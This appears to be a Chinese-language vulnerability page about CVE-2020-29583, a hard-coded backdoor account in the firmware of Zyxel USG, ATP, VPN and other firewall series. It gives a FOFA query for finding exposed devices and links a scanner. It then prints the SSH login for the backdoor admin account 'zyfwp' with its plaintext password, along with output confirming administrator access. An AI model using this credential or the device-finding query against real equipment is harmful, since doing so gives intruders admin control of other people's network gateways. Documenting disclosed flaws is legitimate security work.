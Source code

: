# Zyxel 硬编码后门账户漏洞 CVE-2020-29583

## 漏洞描述

Zyxel固件中发现的后门被称为关键固件漏洞，CVE编号CVE-2020-29583，得分为7.8 CVSS。虽然CVSS评分看似不是很高，但却不可小觑。研究人员表示，这是一个极为严重的漏洞，所有者必须立即更新其系统。因为任何人都可以轻松利用这个漏洞，从DDoS僵尸网络运营商到勒索软件团体和政府资助的黑客。

通过滥用后门账户，网络罪犯可以访问易受攻击的设备并感染内部网络以发起其他攻击。攻击者可以使用管理特权登录设备，并轻易破坏网络设备。

## 漏洞影响

> [!NOTE]
>
> Zyxel USG系列
>
> Zyxel ATP系列
>
> Zyxel NCX系列
>
> Zyxel USG FIEX系列
>
> Zyxel VPN系列

##  FOFA

> [!NOTE]
>
> title="USG40" 等

## 漏洞复现

使用[漏洞扫描脚本](https://github.com/2d4d/scan_CVE-2020-29583)找到易受攻击的版本

![](image/zyxel-1.png)

进行攻击，登录为后门管理员账户

```
$ ssh zyfwp@xxx.xxx.xxx.xxx
Password: PrOw!aN_fXp
Router> show users current
No: 1
  Name: zyfwp
  Type: admin
(...)
Router>
```

## 参考文章

[scan_CVE-2020-29583](https://github.com/2d4d/scan_CVE-2020-29583)

[Zyxel USG Series 账户硬编码漏洞（CVE-2020-29583）](https://www.seebug.org/vuldb/ssvid-99089)